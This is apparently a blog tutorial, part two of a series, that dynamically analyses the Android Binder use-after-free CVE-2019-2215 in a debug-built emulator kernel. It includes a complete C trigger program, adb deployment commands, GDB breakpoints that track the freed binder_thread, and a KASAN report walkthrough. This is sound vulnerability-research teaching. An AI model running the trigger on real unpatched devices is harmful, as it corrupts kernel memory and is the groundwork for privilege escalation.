

<!-- ---

author: 0xbinder  
layout: post  
title: 'Part 2 : Android Use After Free - Dynamic Analysis'  
date: '2025-12-12'  
description: "CVE-2019-2215 Android UAF dynamic analysis"  
useRelativeCover: true  
categories: \[Kernel exploitation\]

---

# CVE-2019-2215: Android Binder Use-After-Free Vulnerability - A Deep Dive (Dynamic analysis)

## Introduction

In [Part 1](posts/android-binder-use-after-free-analysis-part-1), we dissected the source code of the Android Binder driver to identify a logic flaw where a `binder_thread` is freed while still linked to an `epoll` wait queue.  
Static analysis is excellent for finding bugs, but dynamic analysis is required to prove them and eventually exploit them. In this post, we will spin up a vulnerable Android kernel, attach a debugger, and watch the Use-After-Free (UAF) happen in real-time.

To build the vulnerabl kernel you can follow the instructions here https://github.com/0xbinder/android-kernel-exploitation-lab and build with debug info `BUILD_CONFIG=../kernel-build-configs/x86_64_kasan_debug_build.sh build/build.sh`.

### Launching the Emulator

```bash
emulator -show-kernel -no-window -no-snapshot -wipe-data -avd Research -kernel ~/android-kernel-exploitation-lab/android-kernel/out/relwithdebinfo/dist/bzImage -qemu -s -S
```

Once the emulator is running (and hanging, waiting for GDB), we open a new terminal to attach GDB.

### Attaching GDB with GEF

Ensure you have GEF (GDB Enhanced Features) installed https://hugsy.github.io/gef/ . We also need the `vmlinux` binary (the uncompressed kernel with symbols) that matches our `bzImage` which we get after building the kernel.

```bash
gdb -quiet ~/android-kernel-exploitation-lab/android-kernel/out/relwithdebinfo/dist/vmlinux -ex 'target remote :1234'
```

### The Plan

To visualize the UAF, we need to intercept execution at three distinct moments in time:

*   Allocation: When `binder_poll` runs, we need to find the address of the `binder_thread` and its embedded `wait queue`.
*   The Free: When `binder_free_thread` runs, we confirm that specific address is being freed.
*   The Use: When `ep_remove_wait_queue` runs, we confirm the kernel attempts to access the address we just saw get freed.

First, let's upload our Proof of Concept (from Part 1) to the device.

```c
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>  
#include <string.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main() {
    int fd, epfd;
    struct epoll_event event = {.events = EPOLLIN};

    printf("[*] Opening binder driver...\n");
    fd = open("/dev/binder", O_RDONLY);
    if (fd < 0) {
        perror("[-] Failed to open /dev/binder");
        exit(1);
    }
    printf("[+] Binder opened: %d\n", fd);

    epfd = epoll_create(1000);
    if (epfd < 0) {
        perror("[-] Failed to create epoll");
        exit(1);
    }

    printf("[*] Adding binder to epoll (should trigger binder_poll)...\n");
    if (epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event) < 0) {
        perror("[-] epoll_ctl failed");
        exit(1);
    }

    printf("[*] Sending BINDER_THREAD_EXIT...\n");
    ioctl(fd, BINDER_THREAD_EXIT, NULL);
    
    return 0;
}
```

```bash
adb push trigger /data/local/tmp/
adb shell chmod +x /data/local/tmp/trigger
```

### Step 1: Tracking the Allocation

We need to catch the moment the Binder thread is linked to Epoll. This happens in `binder_poll`. In GDB, we set a breakpoint

```bash
(remote) gef➤  b binder_poll
Breakpoint 1 at 0xffffffff80831304: file /home/binder/android-kernel-exploitation-lab/android-kernel/goldfish/drivers/android/binder.c, line 4801.
(remote) gef➤  c
Continuing.
```



Now, inside the emulator shell (via `adb shell`), we run the PoC

```bash
/data/local/tmp/trigger
```

GDB will hit the breakpoint. We step through until we have the `thread` structure.

```bash
gef➤ n
...
gef➤ p thread
$1 = (struct binder_thread *) 0xffff888003d6e000
```

We have identified our victim object! The `binder_thread` is located at `0xffff888003d6e000`. However, `epoll` doesn't store a pointer to the start of the structure; it stores a pointer to the `wait` member inside it. Let's find that address.

```bash
gef➤ p &thread->wait
$2 = (wait_queue_head_t *) 0xffff888003d6e0a0
```

Take note of this address: `0xffff888003d6e0a0`. This is the memory address that `epoll` is now holding onto.

### Step 2: The Free

The PoC continues execution. It calls `ioctl(fd, BINDER_THREAD_EXIT, NULL)`. This triggers `binder_thread_release` and eventually `binder_free_thread`. Let's set a breakpoint there to confirm the object dying is the one we just saw.

```bash
gef➤ b binder_free_thread
Breakpoint 2 at 0xffffffff80c9e6d0: file drivers/android/binder.c, line 4280.
gef➤ c
```

We hit the breakpoint immediately. Let's check the argument passed to this function:

```bash
gef➤ p thread
$3 = (struct binder_thread *) 0xffff888003d6e000
```

Matches exactly! The kernel is about to perform `kfree(thread)`.

At this point in time:

*   The memory at `0xffff888003d6e000` is marked as free/poisoned.
*   The Epoll subsystem still thinks `0xffff888003d6e0a0` (inside that freed chunk) is a valid `wait queue`.

### Step 3: The Crash (The Use)

Now we allow the PoC to finish. When the process exits, the kernel cleans up file descriptors. It closes the Epoll `fd`, which triggers `ep_free`, then `ep_remove_wait_queue`, and finally `remove_wait_queue`. This function attempts to acquire a spinlock located at the dangling pointer.

```c
void remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
    unsigned long flags;
    spin_lock_irqsave(&wq_head->lock, flags); // <--- CRASH HERE
    ...
}
```

We set our final breakpoint

```bash
gef➤ b remove_wait_queue
Breakpoint 3 at 0xffffffff8015aad0: file kernel/sched/wait.c, line 53.
gef➤ c
```

When we hit this, let's look at the first argument `wq_head`.

```bash
gef➤ p wq_head
$4 = (struct wait_queue_head *) 0xffff888003d6e0a0
```

The Proof:

*   We are in `remove_wait_queue`.
*   The `wq_head` argument is `0xffff888003d6e0a0`.
*   We previously saw `0xffff888003d6e000` which contains `0xffff888003d6e0a0` get freed in Step 2.

We are about to write to freed memory. If we type `c`, the kernel's sanitation mechanisms (KASAN) will intervene.

### The KASAN Report

Since we compiled the kernel with KASAN (Kernel Address Sanitizer), instead of a silent corruption or a random reboot, we get a detailed report.

Decoding the Report

```bash
* Write of size 4 at addr ffff888003d6e0a0: KASAN detected a write to the exact address we tracked (`thread->wait`).
* Call Trace: Shows the execution path led from `do_exit` -> `eventpoll_release_file` -> `remove_wait_queue` -> `_raw_spin_lock_irqsave`.
* Allocated by: Confirms the object was created in `binder_get_thread` (called by `binder_poll`).
* Freed by: Confirms the object was destroyed in `binder_free_thread`.
``` -->